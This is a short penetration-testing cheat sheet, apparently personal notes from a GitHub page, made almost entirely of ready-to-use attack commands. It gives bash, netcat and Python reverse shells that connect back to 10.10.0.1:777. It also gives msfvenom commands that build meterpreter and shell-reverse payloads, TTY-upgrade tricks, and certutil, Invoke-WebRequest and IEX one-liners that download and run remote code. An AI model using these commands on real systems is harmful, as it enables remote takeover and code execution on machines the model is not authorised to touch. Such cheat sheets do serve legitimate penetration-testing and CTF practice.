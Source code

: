 sudo python3 -m http.server 80
## Linux reverse shell

<a href="https://weibell.github.io/reverse-shell-generator/">Reverse Shell Generator</a>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">PayloadsAllTheThings Cheatsheet <3</a>
```bash
bash -i >& /dev/tcp/10.10.0.1/777 0>&1
nc -e /bin/bash 10.10.0.1 777
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.1 777 \>/tmp/f
python \-c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.10.0.1",777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=777 -f exe > reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.0.1 LPORT=777 -f exe > reverse.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=777 -f elf >reverse.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.0.1 LPORT=777 -f elf >reverse.elf

```
## Interactive shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
perl -e 'exec "/bin/bash";'
/bin/sh -i

perl: exec "/bin/bash";
ruby: exec "/bin/bash"
lua: os.execute('/bin/bash')

CTRL-Z
stty raw -echo
fg

export TERM=xterm

rlwrap nc -vlnp 1234
```
## Download files
```powershell
certutil.exe -urlcache -split -f http:// .exe
iwr http:// -outfile .exe
powershell.exe IEX (New-Object Net.WebClient).DownloadFile("")
```
## Download and run powershell script
```powershell
powershell.exe IEX (New-Object Net.WebClient).DownloadString("")
powershell.exe -e 
```
<a href="https://raikia.com/tool-powershell-encoder">Powershell Encoder</a>
  
## Powershell.exe Bit
```powershell
[Environment]::Is64BitProcess

C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe (32bit)
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe (32bit -> 64bit)
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe (64bit)
```
